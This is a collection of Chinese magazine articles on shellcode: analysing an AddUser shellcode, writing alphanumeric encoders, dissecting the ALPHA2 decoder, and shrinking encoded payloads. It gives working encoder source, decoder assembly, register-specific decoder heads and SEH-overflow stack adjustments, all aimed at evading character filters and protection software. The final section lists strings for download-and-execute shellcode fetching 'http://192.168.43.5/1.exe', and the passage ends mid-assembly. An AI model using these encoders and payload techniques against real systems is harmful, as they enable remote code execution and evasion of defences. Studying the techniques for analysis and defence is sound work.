"\xEB\x10\x5A\x4A\x33\xC9\x66\xB9\x3E\x01\x8D..."
...
"AddUser:x pass:x"


```

图6

AddUserX.cpp，通过 VC 进行编译后，按 F10 单步执行，不久即可进入 ShellCode，很容易执行到如下的一段解码代码，如图7所示。
等到解码完毕，后面就是我们熟悉的明文指令了，部分指令如图8所示。但是这样简单枯燥的指令，我们仍然很难理解其实际意义，需要借助 IDA Pro 的帮助。不过，IDA Pro 只能反汇编十六进制数据，因此要进行以下处理。
- ① 在不关闭 VC 调试器的前提下，打开 WinHex，选择 `tools->open RAM`，在“Edit main memory”窗口中选择“AddUserx”这个进程，最后双击“Entire Memory”，会弹出该进程的整个用户态内存数据，如图9所示。
- ② 由于已经解码，我们可以直接在内存中搜索 ShellCode 开头几个字节：`33 C9 EB 10`，这个序列一般是唯一的；根据 XOR 编码密钥（这里是 `0x96`），很容易确定 ShellCode 的结尾（如 `08 00`），因此就可以直接在内存中选定整个解码后的 ShellCode，如图10所示。
- ③ 通过 WinHex 的 `Edit -> Copy block -> into new file` 命令将解码后的 ShellCode 另存为一个十六进制数据文件 Decoded.dat。
- ④ 通过 IDA Pro 对 Decoded.dat 进行反汇编，先设置“IDA option”中的“number of opcode bytes”为 8，打开 Decoded.dat 后，单击“右键->code”，获得的部分代码如图11所示。
- ⑤ 这些都是解码之后的代码，过程、标记都很详细，分析起来就很方便了。比如原来是添加用户名 X，我们要修改为 Y 的话，就可以找到相关语句，直接改就行了，如图12所示。
诸如此类的操作，只要有耐心，在 IDA 下很容易实现，而在 VC 下就不容易看出来。OK，上路之后，其他的就不多讲了，大家自己分析就是了。接下来，我们看看另一个 ShellCode 的形式。

- 2. 位于工具中的十六进制 ShellCode。这里要引用的例子是开 13579 端口的 ShellCode。由于是十六进制形式，不能用 VC 直接编译，需要进行以下处理才可以。

- ① 用 IDEMasm 新建一个简单的模板可执行文件，其 ASM 源代码如图13所示。

```asm
CODE
START:
saNOP db 1000 dup(90h)
invoke ExitProcess,0
end START


```
显然，这里只有一句话是重要的：`saNOP db 1000 dup(90h)`，其作用就是创建 1000 字节的空指令空间来存放我们的 ShellCode。编译连接之后，生成可执行程序 mod.exe。用 Stud_PE.exe 编辑 mod.exe 的代码段，将该段设置为可写，如图14所示。

- ② 用 WinHex 分别打开 mod.exe 和包含了十六进制数据 ShellCode 的数据文件，然后将 ShellCode 复制到 mod.exe 代码段开始的地方，注意要用 Write 方式，如图15所示。
- ③ 另存为 mod2.exe 后，打开 Windbg，在“File->Open Executable”中选择 mod2.exe，如图16所示。
- ④ 进入 Windbg 的 CMD 窗口，此时 mod2 进程已经被调试器加载，代码段在内存中一般是从 401000 开始。输入命令 `u 401000`，可以看到 ShellCode 前面若干字节的反汇编代码，如图17所示。
- ⑤ 在 401000 处设置断点，输入命令 `bp 401000`，然后输入命令 `g`，使其跳转到 ShellCode 处。否则，代码只能停止在 Windbg 自己设置的断点上。
- ⑥ 一直按 F10，运行完前面的解码指令，仍然使用 WinHex 读取内存数据，将该数据存为文件，通过 IDA Pro 来反汇编和修改就可以了。

ShellCode 的整个分析过程就介绍到这里，重在方法以及工具的使用。至于具体细节，大家按照文中所述自己体会一遍就很清楚了。文中涉及的工具，除了 IDEMASM 外，其余都可以在网上下载到。

#### 小结

回顾本文，我给大家介绍了一套 ShellCode 分析的综合工具及使用方法，希望对初学的朋友有所帮助。其实只要大家在平时的学习中多体会，相信也会摸索出属于自己的一套方法的。

[本文涉及的代码（程序），详见随书光盘]

---

### 编写全数字字母的 ShellCode
文/回想

漏洞利用中，ShellCode 的编码技术是大家应该掌握的。一是为了增强 ShellCode 的隐蔽性，使得不论是人还是防护软件都难以分析；二是不少漏洞程序有比较强的字符过滤机制，使得很多字符都不能加到 ShellCode 中。以前的编码方式，比如简单的 XOR、拆分编码、分段编码等，都不是很注重对编码后字符的要求。本文主要介绍编写全数字字母的 ShellCode，简称 Alphanumeric ShellCode，使 ShellCode 只包括 A~Z、a~z、0~9 这样的字符。这样的 ShellCode 编写后可以隐藏在特定的输入数据中，在 Web 服务器、FTP 服务器以及邮件服务器漏洞中很适用。

|  |  |
|---|---|
| 解码头部 |  |
| base16 编码的 ShellCode |  |

我们对完成真正功能的 ShellCode 进行 base16 编码，编码结果是全数字字母，前面的解码头部当然也是全数字字母。但由于解码指令短且基本固定，因此就采用前面讲的符合要求的指令来完成。

接下来谈谈 base16 编码。base16 编码是指把整段中的每个二进制数据拆分变为 2 个数字或字母，与具体的指令无关。例如，ShellCode 中的某字节 SC[i]，通过编码要变为 A、B（A、B 都是字母或数字），一个合理的变换公式是：

SC[i] xor A = 58H * B

这里的 58H 是一个常数，只要是数字或字母都可以，而 A 和 B 用一个双重循环就可以生成。解码的时候也很简单，A 和 B 都是已知的，则变换公式就是：

SC[i] = (58H * B) xor A

#### Alphanumeric ShellCode 编写思路

从理论上讲，要编写 Alphanumeric ShellCode，我们可以把 ShellCode 全部用对应数字字母的指令来完成，因为我们常用的指令中有不少都可以满足这个条件，比如 Inc eax、Inc ebx、Inc ecx 分别对应的二进制代码为 48h（'H'）、43h（'C'）、41h（'A'）。

同理，很多 push reg、pop reg、dec reg 等指令，以及一些 xor 指令，对应的二进制代码都是字母或数字。如果我们的 ShellCode 都采用这些指令，那目的也就达到了。该方法具体实现可参考 phrack 上的文章《Writing ia32 alphanumeric shellcodes》。但问题也随之出现，因为这样实现起来太复杂了，往往很简单的指令由于变来变去而导致麻烦不断，同时在 ShellCode 功能需要增加时，修改起来也很不容易。因此编码方式就需要进一步改进。

我们采用的方法还是分段的形式，如下所示。

#### 编写实例

- 1）对原 ShellCode 指令的 base16 编码。这里的原 ShellCode 指令是以前编写好且没有编码过的，部分实现代码如下所示。

```c
int nLen, i;
int A, B;
unsigned int t1, t2;
nLen = strlen((char *)RealShellcode);
// RealShellcode 是未编码的，见随文代码中的 gen.cpp
i = 0;
```

```c
while(true)
{
// realsc，下面就是一个双重循环，直接得出 A 和 B
encode: if(i >= nLen)
    break;
for(A = 0x30; A < 0x7B; A++)
{
    if((A > 0x39 && A < 0x41) || (A > 0x5A && A < 0x61)) continue;
    for(B = 0x30; B < 0x7B; B++)
    {
        if((B > 0x39 && B < 0x41) || (B > 0x5A && B < 0x61)) continue;
        t1 = A * 0x58;
        t1 = t1 << 24;
        t1 = t1 >> 24;
        t2 = RealShellcode[i] ^ B;
        t2 = t2 << 24;
        t2 = t2 >> 24;
        if(t1 == t2)
        {
            printf("%c%c", A, B);
            i++;
            goto encode;
        }
    }
}
}


```

利用上面的代码生成的 AlphaNumeric ShellCode 如下图所示。但这样的结果还不能直接使用，下面再说说解码头部的编写。
- 2）解码头部。这部分汇编指令算法前面已经提到了，对应的二进制代码必须是数字或字母，部分实现代码如下所示。

```asm
50              push eax
5A              pop edx
68 67 75 61 69  push 69617567h
58              pop eax
35 67 75 61 69  xor eax,69617567h
48              dec eax
34 43           xor al,43h
30 42 36        xor byte ptr [edx+36h],al
52              push edx
59              pop ecx
6B 41 37 58     imul eax,dword ptr [ecx+37h],58h
41              inc ecx
33 41 37        xor eax,dword ptr [ecx+37h]
41              inc ecx
32 42 37        xor al,byte ptr [edx+37h]
```

```asm
30 42 37        xor byte ptr [ecx+37h],al
42              inc edx
68 54 57 55 51  push 51555754h
58              pop eax
35 54 57 55 51  xor eax,51555754h
34 63           xor al,63h
38 41 37        cmp byte ptr [ecx+37h],al
75 62           jne sc+99h
```

以上的详细代码具体请见 decode.cpp。大家可以看到，代码中需要查找一个 2 字节的结尾标记，如 c、0 等，这个结尾标记在编码后的 ShellCode 中是绝对不能存在的，否则将出现截断现象。

- 3）结尾字符过滤代码，过滤掉结尾字符，部分代码如下所示（filt.cpp）。

```c
int i, j;
BOOL bOK;
for(i = 0x30; i < 0x7b; i++)
{
    bOK = TRUE;
    if((i > 0x39 && i < 0x41) || (i > 0x5A && i < 0x61))
    {
        continue;
    }
    for(j = 0; j < strlen((const char *)alphasc); j++)
    {
        if(alphasc[j] == i)
        {
            bOK = FALSE;
            break;
        }
    }
    if(bOK == TRUE)
    {
        printf("%c\n", i);
    }
}
```

- 4）测试代码，具体如下所示（test.cpp）。

```c
__asm
{
    xor ecx, ecx
    lea eax, sc
    call eax
}


```

#### 小结

本文介绍了全数字字母 ShellCode 的编写思路，并给了相关实例。希望对感兴趣的朋友能起到抛砖引玉的作用。这些知识还是比较基础的，要想灵活利用各个漏洞，上面的方法还需要结合实际情况灵活改进才可以。

【本文涉及的代码（程序），请见随书光盘】

---

### 再谈全字母数字的 ShellCode 的编写
文/图 Cmdhz

本文还是要再说一下 ShellCode 的问题。说过了 ShellCode 过主动防御，说过了对内存的搜索，还有什么好说的呢？这次我要说一下有关 ShellCode 的编码问题。

起因源于 2007 年第 4 期《黑客防线》杂志上的《WinRAR 7z 文件名溢出分析和利用》一文，该文中谈到，要避免由于 MultiByteToWideChar 对 ShellCode 转换造成的影响，必须对 ShellCode 进行编码，使得编码后的 ShellCode 满足全部由字母和数字组成的条件。文中还附带了一个 ShellCode 的生成模板。

```text
mixedcase_ascii_decoder_body 模板代码片段（含多组字符串与解码体变量）
```

面对这一串奇奇怪怪的字符串，我一直不解其中之意。找了找《黑客防线》杂志以前的一些说 Unicode 有效的 ShellCode 文章，也没有这方面的说明，于是这个问题就放了下来。后来《黑客防线》杂志的《隔山打牛之 RealPlayer 栈溢出》一文中提到纯字母数字的 ShellCode 的时候，又把这些奇奇怪怪的字符串罗列了出来，于是我下定决心要把这个问题搞清楚。

在正式开始本文内容之前，还是先做一些背景介绍，这样做的目的主要是要完整地体现一个学习过程。

#### Unicode 编码特点及对 ShellCode 影响

Unicode 是一个系统，用来表示世界上所有不同语言的字符，就是将世界上所有的文字用 2 个字节统一进行编码。目前，普遍使用的是 UCS-2，即 2 个字节编码，而 UCS-4 是为了防止将来 2 个字节不足以表达世界上其他地区的语言编码才开发的。

既然统一了编码，如何兼容原先各国的文字编码呢？这个时候就需要 CodePage 了。Code Page 就是各国的文字编码和 Unicode 之间的映射表，比如简体中文和 Unicode 的映射表就是 CP936。

Windows 系统中提供了两个 API 函数 MultiByteToWideChar 及 WideCharToMultiByte，用于 ASCII 与 Unicode 之间的转换。对于单字节语言，在进行 Unicode 转换的时候，转换函数会根据当前使用的代码页进行转换，例如“AB（\x41、\x42）”字符串转换成 widechar 格式后一般是“\x41\x00、\x42\x00”。但是，如果第一个字符大于 0x80 或者第二个字节不是 \x00 时，MultiByteToWideChar 会查找对应的代码页中的相应结果，如果找不到就会用 0x3f（\?）来代替，表示有错误。

因此，为了绕过 Unicode 编码对 ShellCode 字节的破坏，我们必须将编写好的 ShellCode 用 WideCharToMultiByte 转换成为 ASCII 码，并保证转换后的字节不会出现 0x3F 字节。当执行溢出攻击时，编码后的 ShellCode 将会被漏洞程序执行 MultiByteToWideChar 转换，还原为原来的 ShellCode。

为了保证执行转换后的 ShellCode 不会出现 0x3F 字节，必须要对 ShellCode 的汇编指令及参数进行精心的优化与调试，再一个个测试能不能满足要求。这时的代码调试是一件非常繁琐而累人的事情，甚至无法写出满足要求的 ShellCode。因此，采用对 ShellCode 进行编码的方法是最简单直接的方法。但是这里也有一个要求：解码头在 ASCII 码的情况下必须保证是纯字符。

## ALPHA 2 编码/解码原理

ALPHA 2 Zero-tolerance 是由 Berend 和 Jan Wever 编写的一个算法，可以把任何 x86 的 ShellCode 完全转换为字符和数字的代码。

的代码包含了系统无关的解码部分，可以把编码 ShellCode 恢复成原始状态并执行它。目前 ALPHA2 Zero-tolerance 算法能创建纯大写的 ShellCode 和 Unicode 代码，还支持 Win32 平台下通过 SEH 自动获取 EIP 的功能。

通过查阅 ASCII 码表，我们可以看到字母数字的 ASCII 码值的取值范围如下。

| 字符范围 | ASCII 范围 |
|---|---|
| A ~ Z | 0x41 ~ 0x5A |
| a ~ z | 0x61 ~ 0x7A |
| 0 ~ 9 | 0x30 ~ 0x39 |

要想编写出纯字母数字的 ShellCode，就要使编码后的 ShellCode 字节码值落在上表所列出的值的范围区间。为了称谓上的方便，我们将以上字符统称为限定字符。

##### 1. ALPHA2 编码原理

ALPHA2 算法的编码原理是将原 ShellCode 字节的 8 位分成高 4 位及低 4 位，分别用限定字符集中的字符来表示。例如原字符的 8 位用 AB 表示，A 是高 4 位，B 是低 4 位；加密后的字符由两个字节 CD、EF 表示，同样 C、E 各自是高 4 位，D、F 各自是低 4 位，则其变换关系如下。

- F：等于 B
- E：限定字符集中低 4 位等于 F 字符的高 4 位的值
- D：A 异或 E 后生成的值
- C：限定字符集中低 4 位等于 D 字符的高 4 位的值

具体的算法大家可以参看下面的程序片段。

```c
A = (shellcode[z] & 0xf0) >> 4;
// ShellCode 的高半个字节
B = (shellcode[z] & 0x0f);
// ShellCode 的低半个字节
F = B;
i = rand() % strlen(valid_chars);
while ((valid_chars[i] & 0x0f) != F) {
    i = ++i % strlen(valid_chars);
}
E = valid_chars[i] >> 4;
D = 0 ? (A-E) & 0x0f : (A^E);
i = rand() % strlen(valid_chars);
while ((valid_chars[i] & 0x0f) != D) {
    i = ++i % strlen(valid_chars);
}
C = valid_chars[i] >> 4;
```

然后将 C 作为高 4 位，D 作为低 4 位组成编码后的第一个字节；将 E 作为高 4 位，F 作为低 4 位组成编码后的第二个字节。大家可以参看下面的程序片段。

```c
sprintf(buff, "%c%c", (C<<4)+D, (E<<4)+F);
strcat(encShellcode, buff);
```

实际上，从上面的计算过程可以看出，字符 C 并不包含编码信息。也就是说，不需要 C 所包含的字节即可解码出原始字符。增加字符 C 的原因只是为了使编码出来的字符串落入限定字符集所规定的字符中。

我们可以使用将 C 赋值为一个固定值来验证上面的推断，比如“C=0x61<<4;”。只是由于 ASCII 编码的关系，使用固定值后总会使编码后的 ShellCode 出现标点字符，因此这也说明了增加字符 C 的目的只是为了使编码出来的字符串落入限定字符集所规定的字符中。

##### 2. ALPHA2 解码原理

有了以上编码过程的分析，解码就很简单了。加密字符串两个字节两个字节地取，每次拆出 C、D、E、F。由于 D=A^E，因此 A=D^E。此时 A 和 B 都已经得到，只要将 A、B 再合成一个字符，结果就出来了。

##### 3. 编码算法的特点

从分析的过程看，这种编码算法与 Base64 算法有许多相似之处，都是通过左右移位的操作来实现编码。不过从冗余度来说，这个编码算法比 Base64 的冗余度大一些，两个字节解码才能得到一个字节，而 Base64 四个字节解码可得到三个字节。编码算法转换的字符与 Base64 差不多，包括 0 到 9 数字和大小写字母，共 62 个码元。也就是前面讨论的，C 字符所包含的高 4 位不包含有效信息。

在 ALPHA2 的编码算法有这么一句代码：“i=rand()%strlen(valid_chars);”，然后通过 while 找码元中满足条件的形成编码字符串。这个初始值为什么要随机呢？由于这种算法的关系，每次在限定字符集的 62 个码元中总有不止一个码元满足条件（对于低 4 位，每 16 个就有一个），所以，即使条件相同，当 i 初始值随机的时候，每一次选到的码元也可能不同。这样就会出现同一个字符两次加密得到的两个字符是不同的，也即多个编码字符实际代表同一个源。

编码码元与源码的码元做不到一一对应，总有一些加密码元携带信息的功能被浪费了，这也是冗余的表现。不知道算法的特点，单从编码字符串的表面看，的确不容易看出不同的码元实际上会对应同一个源。

当然，我们这里讨论的只是对 ShellCode 的变形，并不考虑编码后数据的长度。如果需要对数据的压缩做一定的要求时，大量信息的冗余是不能容忍的。

#### ALPHA2 算法汇编实现

##### 1. 解码程序的编写

我们前面提到过，组成解码函数的指令所对应的 ASCII 码必须保证是纯字符的要求，否则解码函数首先就会由于 Unicode 字符变换而失败。我们以限定字符集中包含大小写的情况为例说明解码函数的汇编实现。

在 ALPHA_2 算法中，解码函数的字节码串以下宏定义：

```c
#define mixedcase_ascii_decoder_body
"jAXP0A0AkAAQ2AB2BB0BBABXP8ABuIJ"
```

该解码字符串的反汇编代码如下：

```asm
6A 41      push 41
58         pop eax
50         push eax ; 保存结果标志'A'
30 41 30   xor byte ptr ds:[ecx+30],al
41         inc ecx
6B 41 41 51 imul eax,dword ptr ds:[ecx+41],51
32 41 42   xor al,byte ptr ds:[ecx+42]
32 42 42   xor al,byte ptr ds:[edx+42]
30 42 42   xor byte ptr ds:[edx+42],al
41         inc ecx
42         inc edx
58         pop eax
50         push eax
38 41 42   cmp byte ptr ds:[ecx+42],al
75 4A      jnz short 0043010D
49         dec ecx
```

在以上汇编程序中需要注意两点内容：该汇编代码需要对指令本身进行一定的修正，才能保证解码程序的正确执行。修正前的语句为：

`6B 41 41 51 imul eax,dword ptr ds:[ecx+41],51`

执行语句 `xor byte ptr ds:[ecx+30],al` 后将会被修正为：

`6B 41 41 10 imul eax,dword ptr ds:[ecx+41],10`

该语句作用是执行左移 4 位。由于受限字符集限制，采用等价指令并在后续再次修正。

修正指令的另一处为：

`75 4A  jnz short 0043010D`

执行完修正后的指令为：

`75 E9  jnz short 00431FBC`

程序将跳转到 `inc ecx` 处继续下一次循环。之所以要做这样的修正，是由于操作数超出限定字符集范围。

解码过程的汇编代码如下：

`6B 41 41 10 imul eax,dword ptr ds:[ecx+41],10`

以上语句相当于执行左移 4 位操作，得到的值为 `D0`。

`32 41 42 xor al,byte ptr ds:[ecx+42]` 相当于执行“D0 ^ E0 ^ 0F”，结果保存在 `al` 中。由于受限字符集影响，数据传送指令无法满足要求，需要借助额外异或操作。

```asm
32 42 42 xor al,byte ptr ds:[edx+42]
30 42 42 xor byte ptr ds:[edx+42],al
```

以上两条指令相当于执行了“D0^E0^0F^C0^0D”，最终效果是执行“D0^E0^0F”并将结果保存到内存地址中。通过再引入一个 XOR 操作来抵消对该字节值的影响。

##### 2. 解码头的说明

现在回过头来看为什么会出现看起来奇怪的解码头字符串。在解码字符串时，首先需要定位出待解码字符串在内存中的位置。通常采用如下程序段执行定位：

```asm
jmp decode_end
decode_start:
    pop edx
    ...
decode_end:
    call decode_start
Shell_start:
```

但是由于受限字符集限制，解码代码中不能出现绝对跳转 `JMP` 与过程调用 `Call` 对应字节，因此定位操作只能采用别的方法。需要先确定执行溢出时指向待解码字节的寄存器，再根据寄存器选择不同解码头代码。主要差异在开头字母（即 push 寄存器不同）。

下面我们看一下解码头字符串“SYIIIIIIIIIIIIII7QZ”所对应的汇编代码。

```asm
53  push ebx   ; 对应字符为 S
59  pop ecx    ; 对应字符为 Y
49  dec ecx    ; 对应字符为 I
49  dec ecx
49  dec ecx
49  dec ecx
49  dec ecx
49  dec ecx
49  dec ecx
49  dec ecx
49  dec ecx
49  dec ecx
49  dec ecx
49  dec ecx
49  dec ecx
49  dec ecx
49  dec ecx
49  dec ecx
49  dec ecx
37  aaa        ; 对应字符为 7
51  push ecx   ; 对应字符为 Q
5A  pop edx    ; 对应字符为 Z


```

说到这里，大家应该是对 ALPHA2 编码算法有了比较全面的了解了吧？心中的那些疑团也应该烟消云散了。这里再说明一个细节：由于定位待解码长度的困难，编码时以字符“A”作为 ShellCode 结束的标志。细心的读者可以从编码函数的实现代码中看到，限制字符集中排除了“A”字符，因此编码后的字符不可能出现“A”。

#### 总结

通过以上分析，我们看到 ALPHA2 算法的编写者不仅设计出了编解码的算法，而且精心编写了算法的具体实现代码及利用模板。为了满足限制字符集对指令的要求，在短短的解码函数汇编语言实现中使用了大量编程技巧，让我们不得不叹服作者构思的精巧及高超的编程能力。

本文以编码后的字符不区分大小写为例进行了分析说明。对于编码后的字符只能包含大写或小写字母的情况的解码程序，读者可以自行进行分析。

全字母数字的 ShellCode 变形方法实际上还有很多，《黑客防线》杂志以前的文章也介绍过一些。作为一名溢出爱好者，编写出适用、好用的 ShellCode 编码是一种基本功，只有通过平时不断的积累与动手实践才能不断地拓展思路，提高能力。

程序首先将待解码字节的地址保存到 ECX 中，然后让 ECX 指向待解码字节之前的 0x10 偏移处。为什么要把 ECX 指针向上移动 0x10 呢？答案还是因为受限字符集的限制。在 ALPHA2 算法汇编实现一节中我们谈到，指令 `xor byte ptr ds:[ecx+30],al` 用来完成对其后 5 个字节处的指令进行修改，如果不将 ECX 指针向上移动 0x10 字节，那么这条指令应该这样编写：

`30 41 20  xor byte ptr ds:[ecx+20],al`

此时，操作数中含有的 0x20 不在限制字符集的范围内，因此程序通过移动 ECX 指针后，使得指令符合要求。字符串中所含有的“I”字符正是 `dec ecx` 指令所对应字节码的表示。

### The shorter, the better
#### ——精简你的数字字母 ShellCode

文／图 Seer[N.N.U]&[suck-0]

新东方戴云教主尝曰：“The longer, the better”，乃应试写作之要义。然 ShellCode 之编写则反之，故曰：“The shorter, the better”。

#### Alpha-2 算法：一字千金的解码头

这种 ShellCode 编码算法可以算是传统 Alpha-numeric 编码的改进，主要通过精简解码头来缩短 ShellCode 的长度。国外大牛给出的编码源程序较长，为了节省版面，以下给出本人修改的超精简版，改进了输入部分，并且只保留了最常用的数字 + 大小写字母混合编码方式。

以下程序及生成的 ShellCode 在 VC++6.0/Windows XP SP3 下测试通过。

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <time.h>
#include <windows.h>
#define VERSION_STRING "ALPHA 2: Zero-tolerance (build 07)"
#define COPYRIGHT "Copyright (C) 2003, 2004 by ... Berend-Jan Wever!!"

strcasecmp(const char *__sz1, const char *__sz2)
{ return _stricmp(__sz1, __sz2); }

#define mixedcase_ascii_decoder_body "AkA0D2A00A0kA0D2A12B10B1ABjAX8A1uJN"

struct decoder {
    char* id;
    char* code;
} mixedcase_ascii_decoders[] = {
    { "nops", "IIIIIIII" mixedcase_ascii_decoder_body },
    { "eax", "PYIIIIIIQZ" mixedcase_ascii_decoder_body },
    { "ecx", "IIIIIIQZ" mixedcase_ascii_decoder_body },
    { "edx", "JJJJJJJRY" mixedcase_ascii_decoder_body },
    { "ebx", "SYIIIIIIQZ" mixedcase_ascii_decoder_body },
    { "esp", "TYIIIIIIQZ" mixedcase_ascii_decoder_body },
    { "ebp", "UYIIIIIIQZ" mixedcase_ascii_decoder_body },
    { "esi", "VYIIIIIIQZ" mixedcase_ascii_decoder_body },
    { "edi", "WYIIIIIIQZ" mixedcase_ascii_decoder_body },
    ...
    { NULL, NULL }
};

struct decoder* decoders[] = {
    mixedcase_ascii_decoders
};

int main(int argc, char* argv[]) {
    int nonewline = 0, nocompress = 0, options = 0, spaces = 0;
    int i, input, A, B, C, D, E, F, size = 0;
    char* valid_chars;
    char* baseaddress = "esp";
    char shellcode[] = "\x90\x90";

    srand((unsigned int)GetTickCount());
    if (baseaddress == NULL) exit(EXIT_FAILURE);
    valid_chars = "0123456789BCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz";

    for (i=0; strcasecmp(baseaddress, decoders[options][i].id) != 0; i++) {
        ...
    }

    if (decoders[options][i+1].id == NULL) {
        exit(EXIT_FAILURE);
    }

    printf("%s", decoders[options][i].code);
    // read, encode and output shellcode
    while (size < sizeof(shellcode) - 1) {
        // encoding AB -> CD 00 EF 00
        input = shellcode[size];
        A = (input & 0xf0) >> 4;
        B = (input & 0x0f);
        F = B;

        // E is arbitrary as long as EF is a valid character
        i = rand() % strlen(valid_chars);
        while ((valid_chars[i] & 0x0f) != F) { i = ++i % strlen(valid_chars); }
        E = valid_chars[i] >> 4;

        // normal code uses xor, unicode-proof uses ADD.
        // AB ->
        D = A ^ E;

        // C is arbitrary as long as CD is a valid character
        i = rand() % strlen(valid_chars);
        while ((valid_chars[i] & 0x0f) != D) { i = ++i % strlen(valid_chars); }
        C = valid_chars[i] >> 4;

        printf("%c%c", (C<<4)+D, (E<<4)+F);
        size++;
    }

    printf("A%s", nonewline ? "" : "\n");
    // Terminating "A"
    exit(EXIT_SUCCESS);
}


```

也许你对节省的长度不以为然，但在不影响功能的前提下尽可能缩短长度是一个原则。要记得我们写 exploit 不仅是在完成任务，更是在雕琢一件艺术品。

如果你还没有这个程序，OK，给你 5 分钟，把它迅速添加到你的武器库中吧。

下面再讲上面代码的使用方法。Alpha-2 的用法和 Alpha-1 大同小异，需要把你的 ShellCode 放进程序的 `char* shellcode=""` 那里进行编码。当然，这只是第一步，由于编码的限制，我们需要手工把特定的寄存器指向解码头（或者说是 ShellCode）的第一字节，才可以正常解码。

举个例子，如果 ESP 指向了 ShellCode 的第一字节，我们就需要用 TYIIIIIIQZ 作为解码头（在程序里 `char* baseaddress="esp"` 就行），执行到解码头时必须出现图 1 所示的情形才可以正常使用。如果是 EAX 指向 ShellCode，就必须出现图 2 的情形，以此类推。记住，解码头的长度都是事先计算好的，解码循环跳转的是一个固定地址（即解码头第一字节入栈的那个寄存器），差了一个字节都会出错，如图 3 所示。

虽然 A=`inc ecx`，为类 nop 指令，但这样也是会出错的，必须要将指定寄存器指向解码头的第一字节才行。
解码头的选择，具体到比较常见的两种溢出利用方式，还是有套路可循的。

- 1）覆盖返回地址的溢出。覆盖返回地址的溢出发生后，我们通过 `jmp esp` 跳到了 ShellCode。现在，哪个寄存器指向了 ShellCode？答案是 `esp`、`TYIIIIIIQZ`。
- 2）覆盖 SEH 的溢出。下面我们来推导一下在常规的覆盖 SEH 溢出发生后，`esp` 与 ShellCode 位置的关系。

```
<=> 通过 add esp, 4、add esp, 4、retn 这 3 条指令，我们跳到了 [shellcode地址-8] 的位置

<=> 通过 add esp, 8、retn 两条指令，我们跳到了 [shellcode地址-8] 的位置

<=> add esp, 8 后，esp 指向了 [shellcode地址-8] 的位置
```

下面看好了，要进行变形了！

```
<=> esp 先加 8，取出现在 esp 指向的内容，它指向了 [shellcode地址-8] 的位置

<=> esp 先加 8，取出现在 esp 指向的内容，弹出来给 esp，再把 esp+8，现在 esp 指向 ShellCode。
```

通过最后一句话，让 `esp` 指向 ShellCode 所需的变换已经很清楚了；而非常幸运，其中提到的几个操作，指令码全部为符合条件的 ASCII 字符。

```
IncEsp = 44h = D
PopEsp = 5Ch = \
DecEsp = 4Ch = L


```

我们需要在 `TYIIIIII` 之前加上这些诡异字符的组合，以调整 `esp` 指向 ShellCode。

根据最后一句话，在 8 个 `D`（执行了 8 次 `inc esp`）之后，`esp` 指向的第一个 DWORD 的值加上 8 就是 ShellCode 的地址了。我们再来一个 `pop esp` 把它取出来即可！
现在，宏操作完毕，`esp` 距 ShellCode 只有 8 字节之遥，下面我们的任务就是通过“微操作”把 `esp` 再加上 8。

别忘了，`inc esp` 这条指令可以使 `esp` 向我们的 ShellCode 前进一字节，但这条指令本身也占一字节，会把我们的 ShellCode 往后推一字节。用这个指令实在是画蛇添足之嫌，所以我们要用更有效率的指令来完成提升 `esp` 的工作。

```
PopEax = add esp, 4 = 58h = X


```

这个够了吧？指令本身会把 ShellCode 推后一字节，但 `pop` 执行一次能追上 4 字节。如果追过了呢？那就再补 `dec esp` 吧。在最常规的覆盖 SEH 溢出中，我们需要附加的调整代码为 `DDDDDDDD\XXXXXXA`。如图 6 所示，`A=inc ecx`，类 nop 指令用来占位。
图 6

下面总结一下。第一，覆盖 SEH 时遇到的情况会相对多变，需要根据具体情况进行调试。光看书是没用的，必须动手做一次才会明白。因此，我给有兴趣的朋友们留了个小小的挑战：提供了一个 C/S 通信小程序的溢出，要求不写 exploit，直接用客户端发送一段字符串，在服务端上开个 cmd 窗口。注意，MFC 的文本框只接收 `0x80` 以下的字符。第二，不要把找地址的范围局限于那几个寄存器，整个堆栈里都是资源，只要灵活运用 `push`、`pop`、`retn` 等指令，总能找到合适地址。在“非典型”的溢出中，这点尤其重要。

#### Pop-up ShellCode：见缝插针，化整为零

在 ShellCode 编写的漫漫长路中，编码总是一个关键问题。各种编码方式中，以数字字母编码最为流行。它几乎适用于很多场合，但代价是长度膨胀：编码后通常翻倍，再加解码头，最终 ShellCode 常达到 500 字节以上。Seer 的一个小发明可以在一定程度上精简这一问题。

想出这个点子主要受 windsor 学长启发，基于以下 3 点来实现。

- 1）在所有的 ShellCode 中，都会有大量长度用于给字符串压栈（函数名、参数等），前人提出的 `hash` 搜索法就是为了精简这部分长度。
- 2）这些字符串几乎全部满足可见字符条件，把其重复编码是对长度的浪费，甚至没有必要放在 ShellCode 里。
- 3）Alpha-Numeric 编码的麻烦在于，若改某个参数，往往需要全部重新 `encode` 一次并重写生成器。

Pop-up ShellCode 的思路是：凡是需要压栈的字符串，不必放在 ShellCode 里，可把这些字符串作为覆盖数据的一部分写入堆栈，再在 ShellCode 里写一个短小子程序将其搜索并取出。

这个思路类似“ShellCode 内存搜索法”：把要用内容藏在内存中并做标识，再由一小段代码搜索；不同的是，这次搜索的不是 ShellCode 本身，而是其中会用到的字符串。

该方法的优势在于：缓冲区不一定容纳完整 ShellCode，但通常能容纳几十字节参数；整块 ShellCode 容易被破坏，零散参数却可见缝插针。它不仅适用于数字字母 ShellCode，常规 ShellCode 也适用；而“内存搜索法”仅在少数情况下可用。

首先把用到的参数加上搜索标记后放入堆栈，格式为：`/参数/4字节内存搜索标志/1字节表示长度/`。这里标志为 `Seer`；长度按可见字符编码，规定 `A=1, Z=26` 依次类推。

```
LoadLibraryASeerL
WinExecSeerG
ExitProcessSeerK
URLMONSeerF
URLDownloadToFileASeerR
c:\\1.exeSeerH
http://192.168.43.5/1.exeSeerY


```

以上是一个完整的下载执行 ShellCode 用到的字符串。溢出时把这些字符串和覆盖数据一起塞进堆栈即可。测试时也可赋给函数临时变量，效果相同，如图 7 所示。
图 7

```c
char str[25][50] = {"LoadLibraryASeerL", "WinExecSeerG", "ExitProcessSeerK", "URLMONSeerF", "URLDownloadToFileASeerR", "c:\\1.exeSeerH", "http://192.168.43.5/1.exeSeerY"};
```

以下是搜索子程序，30 字节左右，还有精简的余地。

```asm
popup:
    mov     eax, esp
    ; eax 为当前搜索地址，由 esp 开始，每次递增
    xor     edx, edx        ; dl 保存每个参数的长度
    xor     ebx, ebx        ; ebx 清零
    mov     ecx, 0x72656554 ; 搜索标志
    dec     ecx
searchstart:
    inc     eax
    cmp     [eax], ecx
    jnz     searchstart
    mov     [eax], ebx
    mov     dl, byte ptr [eax+4]
